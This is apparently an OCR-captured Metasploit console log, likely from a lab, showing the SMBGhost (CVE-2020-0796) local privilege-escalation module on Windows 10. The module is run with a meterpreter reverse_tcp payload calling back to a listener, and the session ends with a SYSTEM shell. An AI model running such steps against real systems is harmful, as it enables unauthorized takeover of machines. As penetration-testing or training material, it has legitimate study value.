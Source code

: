 ```
   2  exploit/windows/local/cve_2020_0668_service_tracing           2020-02-11       excellent  No     Service Tracing Privilege Elevation Vulnerability
   3  exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move  2020-03-10       excellent  Yes    Background Intelligent Transfer Service Arbitrary File Move Privilege Elevation Vulnerability
   4  exploit/windows/local/cve_2020_0796_smbghost                  2020-03-13       good       Yes    SMBv3 Compression Buffer Overflow


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/local/cve_2020_0796_smbghost                                                                                

msf6 exploit(multi/handler) > use 4
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2020_0796_smbghost) > show options 
Module options (exploit/windows/local/cve_2020_0796_smbghost):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.142.19   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 10 v1903-1909 x64


msf6 exploit(windows/local/cve_2020_0796_smbghost) > set session 2
session => 2
msf6 exploit(windows/local/cve_2020_0796_smbghost) > check 
[*] The target appears to be vulnerable.
msf6 exploit(windows/local/cve_2020_0796_smbghost) > exploit 

[*] Started reverse TCP handler on 192.168.142.19:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Launching notepad to host the exploit...
[+] Process 908 launched.
[*] Reflectively injecting the exploit DLL into 908...
[*] Injecting exploit into 908...
[*] Exploit injected. Injecting payload into 908...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200262 bytes) to 192.168.142.61

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```
